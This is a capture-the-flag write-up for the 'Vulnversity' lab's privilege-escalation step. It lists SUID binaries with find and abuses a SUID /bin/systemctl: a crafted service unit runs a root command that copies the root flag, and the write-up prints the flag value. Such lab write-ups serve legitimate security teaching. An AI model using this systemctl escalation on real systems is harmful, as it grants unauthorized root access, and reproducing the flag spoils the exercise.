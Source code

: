 # Vulnversity - Escalation

## Related files
* `tmux.log` - Log file for the `nc` connection

## Solution
If we issue the command `find / -perm -4000 2>/dev/null` we are able to see all binaries with a SUID bit set. The file `/bin/systemctl` stands out as this is the service controller. Using this we can lookup in GTFOBins how to exploit this and modify their example a bit to get the following:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
What this will do is basically copy the flat at `/root/root.txt` to `/tmp/flag` where we can read it and see the value of `a58ff8579f0a9270368d33a9966c7fd5`.